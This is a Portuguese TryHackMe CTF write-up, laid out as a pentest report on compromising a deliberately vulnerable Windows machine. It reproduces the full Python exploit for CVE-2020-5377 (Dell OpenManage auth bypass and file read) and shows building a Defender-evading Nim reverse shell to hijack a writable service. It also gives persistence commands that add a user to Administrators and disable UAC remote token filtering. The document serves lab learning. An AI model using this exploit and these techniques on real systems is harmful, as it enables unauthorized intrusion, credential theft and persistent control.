---
# TryHackMe - Hack Smarter Security


---

# Relatório de Pentest

| Campo           | Detalhe                                                            |
| --------------- | ------------------------------------------------------------------ |
| **Analista**    | Kamaz                                                              |
| **Plataforma**  | TryHackMe                                                          |
| **Sala**        | Hack Smarter Security                                              |
| **Data**        | 23 de Abril de 2026                                                |
| **Tipo do CTF** | Black Box / CTF                                                    |
| **Ambiente**    | Máquina virtual — ambiente controlado e propositalmente vulnerável |

> **Declaração de autorização:** Este teste foi realizado em ambiente de laboratório controlado, disponibilizado pela plataforma TryHackMe exclusivamente para fins educacionais. Nenhuma ação foi executada fora do escopo autorizado pela plataforma.

---

## Sumário Executivo

Este relatório descreve o processo de comprometimento completo da máquina **Hack Smarter Security** na plataforma TryHackMe. O objetivo era obter as duas flags disponíveis, simulando um cenário real de pentest.

Durante o teste, foram identificadas e exploradas três vulnerabilidades principais: acesso anônimo via FTP expondo arquivos sensíveis mas não utilizados no pentest, leitura arbitrária de arquivos via CVE-2020-5377 no Dell OpenManage Server Administrator, e elevação de privilégios por permissão incorreta no diretório do serviço Spoofer.

O comprometimento total foi alcançado, com acesso administrativo ao sistema e persistência demonstrada.

Após alcançar o objetivo do pentest, também fiz as correções das vulnerabilidades no CTF.

---

## Índice

1. [Escopo e Metodologia](#escopo-e-metodologia)
2. [Tabela de Vulnerabilidades](#tabela-de-vulnerabilidades)
3. [Proof of Concept (PoC)](#proof-of-concept)
4. [Privilege Escalation](#privesc)
5. [Remediação](#remediação-de-vulnerabilidades)
6. [Referências](#referências)

---

# 1. Escopo e Metodologia

**Alvo:** `hacksmarter.thm` / `10.66.188.33`
**Máquina atacante:** `192.168.225.13`

O teste seguiu uma abordagem manual com reconhecimento inicial, enumeração de serviços, identificação de vulnerabilidades conhecidas (CVE), exploração e pós-exploração (persistência). As ferramentas utilizadas foram:

- `nmap` — enumeração de portas e serviços
- `ftp` (cliente nativo) — acesso anônimo
- Script Python CVE-2020-5377 (Rhino Security Labs) — leitura arbitrária de arquivos
- `PrivescCheck` (itm4n) — enumeração de PrivEsc no Windows
- `Nim Reverse Shell` (Sn1r / Tyler Ramsbey) — shell evasivo ao Windows Defender
- `icacls`, `sc.exe`, `net` — comandos nativos Windows para pós-exploração

---

## 2. Tabela de Vulnerabilidades

| # | Vulnerabilidade | CVE | Severidade | Serviço | Status |
|---|---|---|---|---|---|
| 1 | FTP com acesso anônimo + arquivos sensíveis expostos | — | **Média** | FTP (porta 21) | Remediada (PoC) |
| 2 | Path Traversal / Leitura arbitrária de arquivos | CVE-2020-5377 | **Alta** (CVSS 7.1) | Dell OpenManage 9.4.0.2 (porta 1311) | Mitigada via firewall (PoC) |
| 3 | Permissão incorreta em diretório de serviço (PrivEsc) | — | **Alta** | Spoofer-Scheduler | Remediada (PoC) |

> **Nota sobre o item 4 da remediação:** A atualização/remoção completa do Dell OpenManage não foi executada por se tratar de máquina virtual propositalmente vulnerável. Em ambiente real, o procedimento seria atualizar para a versão corrigida conforme orientação da Dell (DSA-2020-172) ou desinstalar a aplicação caso não haja necessidade operacional.

---

## 3. Proof of Concept

#### TARGET_IP:
hacksmarter.thm
#### HOST_IP:
192.168.225.13

#### Ports Open:
21 ftp
22 ssh
80 http
1311 rxmon
3389 ms-wbt-server
7680 pando-pub

---
> [!WARNING] Proof of Concept
```python
ping -c 4 hacksmarter.thm
sudo nmap -p- -Pn -n -sS -T3 --min-rate 5000 --max-retries 1 hacksmarter.thm
```

```python
sudo nmap -p 21,22,80,1311,3389,7680 -sV -Pn -sS -n --min-rate 1000 --max-retries 1 hacksmarter.thm
```

> Aparentemente, nada interessante, até o fingerprint entregar o OpenManage,
> e que se trata de SO Windows 7.7. 
>
>Vou primeiro testar se há algo no FTP com user "anonymous"


> Encontramos um arquivo com diversos dados da cartões de crédito e a imagem de um passaporte, mas testei vários métodos de verificar se havia stegnografia ou algum metadado escondido no .png e nada... 


> ⚠️ **Ponto de atenção:** Dados de cartão de crédito e imagem de passaporte expostos via FTP anônimo representam uma violação grave de dados sensíveis. Em um ambiente real, isso exigiria notificação imediata conforme a LGPD/GDPR.

---
## Decidi prosseguir para a WEB

Após uma breve análise, optei por ir ao Dell OpenManage, que me parecia mais promissor...


---
Essa é a interface padrão de login, vamos descobrir a versão, pois sabemos que tem alguns exploits para a versão 9.4.x.x


Clicando no botão "About", conseguimos verificar a versão 9.4.0.2 do OpenManage.


Agora iremos utilizar um metódo milenar para descobrir se há vulnerabilidades para essa versão...


Após uma pesquisa mais aprofundada, descobrimos então que essa é uma versão vulnerável a CVE-2020-5377, vamos buscar as formas de explorar...

 Vamos usar o Script do Rhino SecLabs, que permite explorar a CVE-2020-5377.
```python
# This is a proof of concept for CVE-2020-5377, an arbitrary file read in Dell OpenManage Administrator
# Proof of concept written by: David Yesland @daveysec with Rhino Security Labs
# More information can be found here: 
# A patch for this issue can be found here: 
# https://www.dell.com/support/article/en-us/sln322304/dsa-2020-172-dell-emc-openmanage-server-administrator-omsa-path-traversal-vulnerability

from xml.sax.saxutils import escape
import http.server
import ssl
import sys
import re
import os
import requests
import _thread

import urllib3
urllib3.disable_warnings()

if len(sys.argv) < 3:
    print('Usage: python CVE-2020-5377.py <yourIP> <targetIP>:<targetPort>')
    exit()

# This XML to imitate a Dell OMSA remote system comes from https://www.exploit-db.com/exploits/39909
# Also check out https://github.com/hantwister/FakeDellOM
class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        data = b''
        content_len = int(self.headers.get('content-length', 0))
        post_body = self.rfile.read(content_len)
        self.send_response(200)
        self.send_header("Content-type", "application/soap+xml;charset=UTF-8")
        self.end_headers()
        if b"__00omacmd=getuserrightsonly" in post_body:
            data = escape("<SMStatus>0</SMStatus><UserRightsMask>458759</UserRightsMask>").encode('utf-8')
        if b"__00omacmd=getaboutinfo " in post_body:
            data = escape("<ProductVersion>6.0.3</ProductVersion>").encode('utf-8')
        if data:
            requid = re.findall(b'>uuid:(.*?)<', post_body)[0]
            response = b'''<?xml version="1.0" encoding="UTF-8"?>
                        <s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsman="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:n1="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/DCIM_OEM_DataAccessModule">
                          <s:Header>
                            <wsa:To>http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</wsa:To>
                            <wsa:RelatesTo>uuid:'''+requid+b'''</wsa:RelatesTo>
                            <wsa:MessageID>0d70cce2-05b9-45bb-b219-4fb81efba639</wsa:MessageID>
                          </s:Header>
                          <s:Body>
                            <n1:SendCmd_OUTPUT>
                              <n1:ResultCode>0</n1:ResultCode>
                              <n1:ReturnValue>'''+data+b'''</n1:ReturnValue>
                            </n1:SendCmd_OUTPUT>
                          </s:Body>
                        </s:Envelope>'''
            self.wfile.write(response)

        else:
            self.wfile.write(b'''<?xml version="1.0" encoding="UTF-8"?><s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd"><s:Header/><s:Body><wsmid:IdentifyResponse><wsmid:ProtocolVersion>http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd</wsmid:ProtocolVersion><wsmid:ProductVendor>Dell Inc.</wsmid:ProductVendor><wsmid:ProductVersion>1.0</wsmid:ProductVersion></wsmid:IdentifyResponse></s:Body></s:Envelope>''')

    def log_message(self, format, *args):
        return

created_cert = False
if not os.path.isfile('./server.pem'):
    print('[-] No server.pem certificate file found. Generating one...')
    os.system('openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes -subj "/C=NO/ST=NONE/L=NONE/O=NONE/OU=NONE/CN=NONE.com"')
    created_cert = True

def start_server():
    server_class = http.server.HTTPServer
    httpd = server_class(('0.0.0.0', 443), MyHandler)
    context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
    context.load_cert_chain(certfile='./server.pem')
    httpd.socket = context.wrap_socket(httpd.socket, server_side=True)
    httpd.serve_forever()

_thread.start_new_thread(start_server, ())

my_ip = sys.argv[1]
target = sys.argv[2]

def bypass_auth():
    values = {}
    url = "https://{}/LoginServlet?flag=true&managedws=false".format(target)
    data = {"manuallogin": "true", "targetmachine": my_ip, "user": "VULNERABILITY:CVE-2020-5377", "password": "plz", "application": "omsa", "ignorecertificate": "1"}
    r = requests.post(url, data=data, verify=False, allow_redirects=False)
    cookie_header = r.headers['Set-Cookie']
    session_id = re.findall('JSESSIONID=(.*?);', cookie_header)
    path_id = re.findall('Path=/(.*?);', cookie_header)
    values['sessionid'] = session_id[0]
    values['pathid'] = path_id[0]
    return values

ids = bypass_auth()
session_id = ids['sessionid']
path_id = ids['pathid']

print("Session: " + session_id)
print("VID: " + path_id)

def read_file(target, sess_id, path_id):
    while True:
        file = input('file > ')
        url = "https://{}/{}/DownloadServlet?help=Certificate&app=oma&vid={}&file={}".format(target, path_id, path_id, file)
        s = requests.Session()
        cookies = {"JSESSIONID": sess_id}
        req = requests.Request(method='GET', url=url, cookies=cookies)
        prep = req.prepare()
        prep.url = "https://{}/{}/DownloadServle%74?help=Certificate&app=oma&vid={}&file={}".format(target, path_id, path_id, file)
        r = s.send(prep, verify=False)
        print('Reading contents of {}:\n{}'.format(file, r.content.decode('utf-8')))

def get_path(path):
    if path.lower().startswith('c:\\'):
        path = path[2:]
    path = path.replace('\\','/')
    return path

read_file(target, session_id, path_id)
```
E executar assim
```python
sudo python3 CVE-2020-5377.py HOST_IP hacksmarter.thm:1311
```


Após analisarmos o arquivo web.config no dir \Administrator, testamos o \hacksmartersec
Onde conseguimos o usuário e senha do Tyler.

> Uma dica? Brute-Force não teria funcionado...

> ⚠️ **Ponto de atenção:** A CVE-2020-5377 permitiu leitura de arquivos do sistema sem autenticação válida, incluindo o `web.config` com credenciais em texto claro. 
> Esse é o tipo de falha que, em ambiente real, levaria a um comprometimento completo de toda a infraestrutura.

---
Com o usuário e senha do Tyler, podemos acessar o servidor via SSH.

E capturar a primeira flag do desafio!

---
## 4. PrivEsc

Eu não tenho muito conhecimento de Windows, então vamos começar buscando aplicações legadas no servidor.
Vamos começar pelo diretório C:\Program Files(x86).

E encontramos 3 programas não muito comuns e que podemos tentar explorar.
São AWS Instalation, Spoofer e WinPcap.


Fiquei curioso pelo nome que nunca vi antes...

Analisando os serviços rodando, o nome mais atrativo, novamente é o Spoofer...


Após uma incessante busca de dois minutos no Google sobre o Spoofer, descobri que é vulnerável e pode permitir PrivEsc, que conveniente...


Mas antes de prosseguir, queria rodar o WinPEAS, porém, não vou arriscar por causa do Windows Defender... 
Então vou testar uma outra alternativa chamada PrivescCheck do Itm4n.
```python
wget https://github.com/itm4n/PrivescCheck/releases/latest/download/PrivescCheck.ps1
python3 -m http.server 80
```

Após executar e aguardar bons minutos, eu confesso que esperava mais...

Mas agora tenho certeza que o PrivEsc está na imagem de algum serviço, vamos verificar nossas permissões e tentar varrer o que podemos modificar com nossas permissões.

E novamente, o Spoofer aí... Conseguimos ver que nosso usuário tem permissão AllAccess, ou seja, controle total sobre o diretório.


Confirmando, realmente temos privilégios nesse diretório.


Com esse último teste, sabemos que nós temos controle total sobre o Spoofer-Scheduler e o diretório Spoofer, este será nosso passe livre para a elevação de privilégios.


Porém, ainda temos que tomar cuidado com o Windows Defender, mas lembro que o Tyler Ramsbey criou um script para reverse shell em Nim. Vai nos atender.

Para instalar o Nim e `mingw-w64`Execute o seguinte:

```python
git clone https://github.com/Sn1r/Nim-Reverse-Shell
sudo apt install mingw-w64
sudo apt install nim
```

No meu caso, precisei instalar dessa outra forma no Parrot OS
```python
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
export PATH=/home/$USER/.nimble/bin:$PATH
nim -v
```
Após clonar o repositório na nossa máquina, precisamos editar `rev_shell.nim`Com nosso endereço IP e a porta desejada, escolhemos a porta 80, pois outras portas podem estar bloqueadas pelo firewall e a porta 80 estará aberta para tráfego de saída.



Na máquina atacante, execute:
```python
# Executa o compilador
┌─[✗]─[kamaz@parrot]─[~/Oracle/study/THM/CTF/CTF-Hack-Smarter/Nim-Reverse-Shell]
└──╼ $nim c -d:release --os:windows --cpu:amd64 --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc --app:gui -o:spoofer-scheduler.exe rev_shell.nim

# Depois de renomear o arquivo original no alvo
$scp spoofer-scheduler.exe tyler@hacksmarter.thm:"C:/Program Files (x86)/Spoofer/"
```

Na maquina alvo, via PowerShell:
```powershell
# Renomeando o binário
mv .\spoofer-scheduler.exe .\spoofer-scheduler.exe.bak

# Vamos parar o serviço
sc.exe stop spoofer-scheduler

# Vamos voltar o serviço com o nosso binário para Rev 
sc.exe start spoofer-scheduler
```



E conseguimos acesso total!

Agora queremos brincar um pouco com esse CTF, então antes de pegar a flag final, vamos garantir persistência da seguinte forma:
```python
# 1. Adicionar o Tyler ao Grupo de Administradores
net localgroup "Administrators" tyler /add

# 2. Adicionar ao Grupo de Remote Management (Opcional)
net localgroup "Remote Management Users" tyler /add

# 3. Bypass de Restrições de Rede (UAC Token Filter)
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "LocalAccountTokenFilterPolicy" /t REG_DWORD /d 1 /f
```
